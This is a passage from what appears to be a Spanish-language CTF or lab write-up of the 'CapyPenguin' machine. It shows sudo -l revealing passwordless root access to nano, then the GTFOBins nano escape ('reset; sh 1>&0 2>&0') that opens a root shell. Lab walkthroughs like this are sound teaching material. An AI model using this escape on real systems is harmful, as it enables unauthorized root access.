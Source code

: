 Reviso información del usuario actual.

```shell
mario@c9e745c2d0dd:~$ id
uid=1000(mario) gid=1000(mario) groups=1000(mario)
```

Compruebo si el usuario actual tiene algún permiso especial. Veo que puede ejecutar `/usr/bin/nano` como root sin necesidad de proporcionar una contraseña.

```shell
mario@c9e745c2d0dd:~$ sudo -l
User mario may run the following commands on c9e745c2d0dd:
    (ALL : ALL) NOPASSWD: /usr/bin/nano
```

En [nano | GTFOBins](https://gtfobins.github.io/gtfobins/nano/) encuentro como obtener una shell como root. Realizo los siguientes pasos.

```shell
sudo nano
^R^X (Hacer Ctrl+R y Ctrl+X)
reset; sh 1>&0 2>&0
```

![Capypenguin 4](/assets/images/2024-05-29-CapyPenguin/capypenguin_5.png)

Para salir de nano hay que hacer un `clear`. 

```shell
# whoami
root
```
